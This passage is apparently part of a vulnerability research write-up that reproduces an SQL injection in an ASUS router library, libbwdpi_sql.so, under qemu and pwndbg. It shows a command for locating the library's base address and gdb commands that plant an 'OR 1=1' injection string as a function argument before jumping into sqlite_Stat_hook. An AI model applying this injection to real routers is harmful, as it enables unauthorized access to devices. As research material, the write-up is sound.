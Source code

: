 Then continue the program. After it, you need to get the address of `libbwdpi_sql.so` by following command after load the libs(must after load the libs)

```bash
cat /proc/`ps -e | grep "qemu-arm-static" | awk '{print $1}'`/maps | grep "libbwdpi_sql.so" | head -n 1 
```

![asus](/image/asus_sql/15.png)  
`Here the address of libbwdpi_sql.so is 0x40d3f000, as you can see`

Continue the program, once the reg `PC` is `0x176c8`(meet the break point 1), input following command in pwndbg, modify the `r0-r4`、`stack` to `arg1-arg7`, modify the `PC` to `sqlite_Stat_hook`.  
Don't forget to set break point in `libbwdpi_sql.so` so that you could debug the program

![asus](/image/asus_sql/16.png)  

```
# 1st para
set $r0=0
# 2nd para
set {char[16]} 0xbb010 = "\"OR\"1\"=\"1"
set $r1=0xbb010
# 3rd para
set {char[16]} 0xbb020 = "hour"
set $r2=0xbb020
# 4th para
set {char[16]} 0xbb030 = "24"
set $r3=0xbb030
# 7th para
set $sp=$sp - 4
set {unsigned int} $sp = 0xbb280 
# 6th para
set $sp=$sp - 4
set {unsigned int} $sp = 0xbb080 
# 5th para
set $sp=$sp - 4
set {char[16]} 0xbb040 = "1000"
set {unsigned int} $sp = 0xbb040
# modify pc to sqlite_Stat_hook
set $pc=0x0031B08
```

